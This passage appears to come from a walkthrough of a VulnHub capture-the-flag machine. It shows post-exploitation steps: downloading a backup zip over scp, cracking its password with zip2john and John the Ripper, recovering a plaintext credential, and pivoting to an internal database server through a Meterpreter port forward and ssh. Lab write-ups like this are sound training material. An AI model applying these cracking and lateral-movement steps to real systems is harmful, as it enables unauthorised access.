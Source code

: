 Now that we can access oscar’s account on our local machine, we can use scp to download the zip file and analyse it incase it requires cracking.
`scp -P 2022 oscar@localhost:/home/oscar/backup.zip `

Crack the zip file using zip2john and john
`zip2john backup.zip &gt; hash.txt  
john hash.txt`
![image](/posts/2020-09-26_nully-cybersecurity1vulnuhb/images/17.png#layoutTextWidth)


We get a file called creds.txt which contain credentials
`donald:HBRLoCZ0b9NEgh8vsECS`

These belong to the database server

Forward the traffic on port 22 of the database server to our local machine
`portfwd add -l 3022 -p 22 -r 172.17.0.5`

ssh as donald using the credentials obtained.
`ssh donald@localhost -p 3022  
The authenticity of host &#39;[localhost]:3022 ([127.0.0.1]:3022)&#39; can&#39;t be established.  
ECDSA key fingerprint is SHA256:qA12BwczynXyAVDqWazjlkn7mBhxZq3VkJ3Dp0fWy2s.  
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes  
Warning: Permanently added &#39;[localhost]:3022&#39; (ECDSA) to the list of known hosts.  
donald@localhost&#39;s password:   
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 4.15.0-112-generic x86_64)``* Documentation:  [https://help.ubuntu.com](https://help.ubuntu.com)  
 * Management:     [https://landscape.canonical.com](https://landscape.canonical.com)  
 * Support:        [https://ubuntu.com/advantage](https://ubuntu.com/advantage)``This system has been minimized by removing packages and content that are  
not required on a system that users do not log into.``To restore this content, you can run the &#39;unminimize&#39; command.  
Last login: Thu Aug 27 15:13:37 2020 from 172.17.0.1  
donald@DatabaseServer:~$`
